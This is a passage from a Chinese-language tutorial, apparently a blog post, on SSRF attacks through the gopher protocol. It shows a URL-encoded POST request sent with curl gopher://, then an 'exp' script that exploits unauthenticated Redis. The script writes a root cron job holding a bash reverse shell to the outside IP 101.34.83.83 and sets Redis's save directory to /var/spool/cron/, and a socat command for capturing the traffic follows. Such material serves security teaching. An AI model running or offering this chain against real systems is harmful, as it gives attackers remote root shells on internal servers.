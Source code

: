 ```
POST /test.php HTTP/1.1
Host: 192.168.31.54:8088
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=test
```

进行URL编码：

```
POST%20/test.php%20HTTP/1.1%0d%0aHost:%20192.168.31.54:8088%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:11%0d%0a%0d%0aname=test%0d%0a
```

发送请求：

```
curl gopher://192.168.31.54:8088/_POST%20/test.php%20HTTP/1.1%0d%0aHost:%20192.168.31.54:8088%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:11%0d%0a%0d%0aname=test%0d%0a
```

请求结果：

![image-20210711201447467](/images/image-20210711201447467.png)



##### 攻击redis服务

Redis时一个开源的key-value型存储系统，通常被称为数据结构服务器。

通过gopher协议攻击内网Redis服务，如果内网中的Redis存在未授权访问漏洞，并且Redis服务以root权限运行时，可以利用gopher协议来攻击，通过写入定时任务来实现反弹shell，或者是写入一个webshell。

攻击redis的exp:

```sh
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/101.34.83.83/6666 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

通过socat捕获发送的数据

```
socat -v tcp-listen:4444,fork tcp-connect:127.0.0.1:6379
```

这会将本地的4444端口转发到redis服务的6379端口，访问4444端口就相当于访问服务器的6379端口
